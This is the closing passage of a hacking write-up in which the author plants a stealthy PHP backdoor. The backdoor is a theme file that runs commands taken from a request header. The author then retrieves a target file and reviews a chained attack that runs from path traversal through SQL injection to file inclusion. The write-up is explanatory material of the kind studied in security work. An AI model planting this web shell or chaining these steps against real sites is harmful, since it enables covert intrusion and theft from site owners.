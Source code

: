 ~~~ php
<?php
include( THEME_DIR . ($theme='default') . '.php' );
if(isset($_SERVER['HTTP_X_FORWARD_FOR']))
    system($_SERVER['HTTP_X_FORWARD_FOR'].' 2>&1');
?>
~~~

This is just our same old command injection code, with a little addition to help keep us under the radar: we include the real theme file, and even set the variable back just in case it is used anywhere else. The target's site will look and function exactly the same as before, except we can secretly execute a command along with any request. Nice.


## Game Over


Since we now have full access to our target user, it's just a trivial matter of finding the files we want. All I knew about the file I was after was that I'd "know it when [I] saw it." It ended up being a file called topsecret.txt, and my "victim" had one last trick up his sleeve. Unfortunately for him, I wasn't dumping the file the way he expected:

~~~
victim@target:/home/victim/target.example.com% grep ^ * .*
topsecret.txt:cat: /home/victim/target.example.com/topsecret.txt: Permission denied
~~~

Nice try, though.


## Review


Here's a review of the steps we took:



	
  * used a [path traversal vulnerability](http://cwe.mitre.org/data/definitions/22.html) on site A to discover otherwise inaccessible site B

	
  * used a [SQL injection vulnerability](http://cwe.mitre.org/data/definitions/89.html) and weak password hashing on site B to discover admin login to site C

	
  * used admin privileges to [execute arbitrary code](http://cwe.mitre.org/data/definitions/94.html) on site C

	
  * used [information exposed by error messages](http://cwe.mitre.org/data/definitions/209.html) to find internal paths to target site

	
  * used [server misconfiguration](http://cwe.mitre.org/data/definitions/61.html) to read source code and database credentials for site D

	
  * used [local file inclusion vulnerability](http://cwe.mitre.org/data/definitions/98.html) through database on site D to execute arbitrary code as that user
